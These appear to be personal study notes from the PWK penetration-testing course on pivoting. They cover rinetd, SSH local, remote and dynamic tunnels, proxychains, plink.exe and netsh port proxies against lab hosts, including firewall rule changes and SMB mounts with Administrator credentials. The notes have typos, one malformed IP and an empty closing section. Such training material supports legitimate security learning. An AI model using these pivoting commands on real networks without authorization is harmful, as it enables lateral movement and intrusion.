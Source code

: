 # PWK PDF Highlights

## Port Forwarding

Redirect traffic destined for one IP address and port to another IP address and port.

### RINETD

During an assessment, we gained root access to an Internet-connected Linux web server. From there, we found and compromised a Linux client on an internal network, gaining access to SSH credentials.

```bash
# From Kali
# Test network connectivity
kali@kali:~$ ping google.com -c 1
PING google.com (216.58.207.142) 56(84) bytes of data.

# Test connection to found IP
kali@kali:~$ root@kali:~# nc -nvv 216.58.207.142 80
(UNKNOWN) [216.58.207.142] 80 (http) open
GET / HTTP/1.0
```

```bash
# Access compromised target via SSH
kali@kali:~# ssh student@10.11.0.128

# Test network connectivity -- no internet access
kali@kali:~$ ping google.com -c 1
(UNKNOWN) [216.58.207.142] 80 (http) : No route to host
```

```bash
# Redirect traffic to our Kali linux server using RINETD

ss -antp | grep "80"

# From Compromised target to Kali linux
student@debian:~$ nc -nvv 10.11.0.4 80
(UNKNOWN) [10.11.0.4] 80 (http) open
GET / HTTP/1.0

```

## SSH Tunneling

### SSH Local Port Forwarding

Tunnel a local port to a remote server using SSH. Similar to RINETD.

```bash
# Kali --> 22 Linux compromised client --> Windows Server target
# From Kali
ssh -N -L <bind/kali-address:port>:<Windows Server target:port> <username@compomised client ddress>
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
# Any incoming connections on port 445 of Kali will be forwarded to Windows Server through compromised linux client
# Update smb.conf with 'min protocol = SMB2' and restart the daemon

# Access Windows Server (target) SMB shares from Kali
kali@kali:~$ smbclient -L 127.0.0.1 -U Administrator

```

### SSH Remote Port Forwarding

Connections specified port on remote host will be forwarded to the specified port on the local machine.

Scenario: Access to a non-root shell on a Linux client in the internal network. We discovered a mysql server running on TCP port 3306. Firewall blocking inbound connections on port 22. Can't SSH into server from Kali. BUT we can SSH out TO our Kali machine.

```bash
# From Linux compromised client
student@debian:~$ ssh -N -R <bind-address:port>:<host:hostport> username@kali-address
student@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

This will forward all incoming traffic on our Kali systems local port 2221 to port 3306 on the compromised box through an SSH tunnel, allowing us to reach the mysql port even though it is blocked at the firewall.

```bash
# From Kali
ss -antp | grep "2221"
# Scan forwarded mysql service - enumerate output
sudo nmap -sV 127.0.0.1 -p 2221
# mysql access
mysql -h 
```

### SSH Dynamic Port Forwarding

Set a local listening port, having it tunnel incoming traffic to any remote destinatino through the use of a proxy.

```bash
# From Linux compromised client
# We find another network interface connected to another network
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
ssh -N -D <sock4 proxy on Kali:8080> <student@compromised linux machine>
ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Proxychains

```bash
# Edit peoxychains.conf adding...
socks4 127.0.0.1 8080
# Run tools through proxy
proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

## Plink.exe

Pivoting through Windows based operating systems.

Scenario: From compromising a Windows server, we discover a mysqld.exe running on port 3306.

```powershell
# From a Windows System shell
# Transfer Plink.exe to this Windows system
plink.exe -ssh -l kali -pw kali -R <kali-machine:port>:<Windoww-system:port> <kali-machine>
plink.exe -ssh -l kali -pw kali -R 100.11.0.4:1234:127.0.0.1:3306 10.11.0.4
# From Kali
sudo nmap -sV 127.0.0.1 -p 1234
```

## NETSH

Scenario: Compromised a Windows target through remote vuln and obtain System privileges. We find an additional network interface. We identify a Windows Server that has port 445 open.

```powershell
# From Windows compromised target
netsh interface portproxy add v4tov4 listenport=<kali port> listenaddress=<kali IP> connectport=<Windows server port> <connectaddress=<Windows server address>
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
# Check for listening
netstat -anp TCP | find "4455"
# With admin permissions we can allo forwarding rule
netsh advfirewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action allow

# From Kali
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Data
# If an error occurs, we can test interaction
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty /mnt/win10_share
ls -l /mnt/win10_share
```

## HTTPTunnel-ing Through Deep Packet Inspection

```
```
